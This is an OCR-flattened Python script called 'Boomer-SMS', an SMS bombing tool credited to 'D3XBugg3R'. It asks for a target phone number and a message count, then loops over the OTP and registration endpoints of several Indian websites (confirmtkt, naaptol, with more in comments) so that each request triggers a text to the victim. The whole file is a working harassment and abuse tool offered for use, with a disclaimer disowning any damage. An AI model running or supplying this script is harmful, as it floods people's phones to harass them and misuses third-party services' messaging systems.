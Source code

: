 # Boomer-SMS
from urllib.request import Request,urlopen from urllib.parse import urlencode,quote_plus import platform import os import time import urllib import urllib.request import http.cookiejar  def banner():     if platform.system().lower()=="windows":         os.system("cls")     else:         os.system("clear")     print("""   /$$$$$$  /$$      /$$  /$$$$$$        /$$$$$$$   /$$$$$$  /$$      /$$ /$$$$$$$  /$$$$$$$$ /$$$$$$$   /$$__  $$| $$$    /$$$ /$$__  $$      | $$__  $$ /$$__  $$| $$$    /$$$| $$__  $$| $$_____/| $$__  $$ | $$  \__/| $$$$  /$$$$| $$  \__/      | $$  \ $$| $$  \ $$| $$$$  /$$$$| $$  \ $$| $$      | $$  \ $$ |  $$$$$$ | $$ $$/$$ $$|  $$$$$$       | $$$$$$$ | $$  | $$| $$ $$/$$ $$| $$$$$$$ | $$$$$   | $$$$$$$/  \____  $$| $$  $$$| $$ \____  $$      | $$__  $$| $$  | $$| $$  $$$| $$| $$__  $$| $$__/   | $$__  $$  /$$  \ $$| $$\  $ | $$ /$$  \ $$      | $$  \ $$| $$  | $$| $$\  $ | $$| $$  \ $$| $$      | $$  \ $$ |  $$$$$$/| $$ \/  | $$|  $$$$$$/      | $$$$$$$/|  $$$$$$/| $$ \/  | $$| $$$$$$$/| $$$$$$$$| $$  | $$  \______/ |__/     |__/ \______/       |_______/  \______/ |__/     |__/|_______/ |________/|__/  |__/                                                                                                                                                                                                                                         By : D3XBugg3R                                   With &lt;3 of T34M GCA                                                                                                       Note : I won't be responsible for any damage caused by this script, Use at your own risk """) #http://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&amp;mobile=  #https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=  #http://t.justdial.com/api/india_api_write/10aug2016/sendvcode.php?mobile=  #http://www.quikr.com/SignIn?aj=1&amp;for=send_otp&amp;user=  def send(num, counter, slep):     url1 = ["https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=","https://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&amp;mobile="]     #url="https://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&amp;mobile="     data={"phone":num}     x=y=0     for y in range(int(counter)):         for x in url1:             banner()             print("Target Number          : ", num)             print("Number of Message Sent : ", y+1)             result_url=str(x)+num             resp1=Request(result_url)             urlopen(resp1)             time.sleep(slep)          banner() send(input("Enter Target Number : "), input("Enter Number of Messages : "), 1)
